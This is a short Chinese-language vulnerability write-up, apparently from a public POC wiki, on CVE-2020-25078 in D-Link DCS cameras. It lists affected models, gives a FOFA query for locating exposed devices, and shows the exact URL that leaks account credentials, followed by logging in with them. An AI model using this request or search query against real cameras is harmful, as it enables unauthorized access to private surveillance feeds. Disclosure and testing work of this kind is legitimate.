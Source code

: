 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面



## 漏洞影响

> [!NOTE]
>
> DCS-2530L
> DCS-2670L
> DCS-4603
> DCS-4622
> DCS-4701E
> DCS-4703E
> DCS-4705E
> DCS-4802E
> DCS-P703

## FOFA

> [!NOTE]
>
> app="D_Link-DCS-2530L"

## 漏洞复现

访问登录页面如下

![](image/link-9.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```

![](image/link-10.png)

使用泄露的账号密码登陆系统

![](image/link-11.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> D_Link_DC_Disclosure_of_account_password_information

![](image/link-13.png)